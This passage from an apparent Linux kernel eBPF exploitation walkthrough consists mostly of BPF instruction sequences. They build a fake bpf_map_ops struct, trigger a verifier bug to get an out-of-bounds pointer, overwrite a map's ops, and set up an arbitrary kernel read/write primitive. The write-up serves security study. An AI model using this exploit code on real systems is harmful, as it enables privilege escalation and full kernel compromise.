 ```c
BPF_EXIT_INSN(),

// setup fake bpf_map_ops struct with only needed values
BPF_MOV64_REG(BPF_REG_7, BPF_REG_0), // move map_ptr + 0x110
BPF_MOV64_IMM(BPF_REG_0, kbase + ARRAY_MAP_UPDATE_ELEM_OFFSET),
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 12 * 8),

BPF_MOV64_IMM(BPF_REG_0, kbase + ARRAY_MAP_LOOKUP_ELEM_OFFSET),
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 11 * 8),

BPF_MOV64_IMM(BPF_REG_0, kbase + 0x20e9c0), // array_of_map_gen_lookup
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 19 * 8),
```
Now we will overwrite `ops` of `arb_read_write_map`. For this we use the `map_lookup_elem` like the previous program to make the `data_ptr` point to `map_ptr + 0x0` instead of `map_ptr + 0x110` and write `oob_map_ptr + 0x110` to `ops`.
```c
BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
BPF_LD_MAP_FD(BPF_REG_1, arb_read_write_map_fd),
BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem), // get values ptr

BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
BPF_EXIT_INSN(),

BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),

// trigger vuln
BPF_MOV64_IMM(BPF_REG_0, 0x110),
BPF_MOV64_IMM(BPF_REG_1, 64),
BPF_ALU64_REG(BPF_RSH, BPF_REG_0, BPF_REG_1),
BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_0),

// special instruction to load 64-bit immediates
BPF_LD_IMM64(BPF_REG_0, map_ptr + 0x110), // oob_map_ptr + 0x110

// overwrite ops with oob_map_ptr + 0x110
BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 0),

BPF_EXIT_INSN(),
```

### Arbitrary Read & Write program
Now we will make a program which will use `map_lookup_elem` on `arb_read_write_map` to trigger `array_of_map_gen_lookup` during jitting.
```c
BPF_MOV64_REG(BPF_REG_6, BPF_REG_1),
BPF_MOV64_IMM(BPF_REG_0, 0),
BPF_STX_MEM(BPF_W, BPF_REG_10, 0, -4),

BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
BPF_LD_MAP_FD(BPF_REG_1, arb_read_write_map_fd),
BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem), // will use array_of_map_gen_lookup

BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
BPF_EXIT_INSN(),

BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),
```
We will use a third map `info_map` for the communication part. We will tell the program to either do read or write using the socket. The read value will be written to `info_map` and the value to write will be taken from `info_map` also.
```c
```
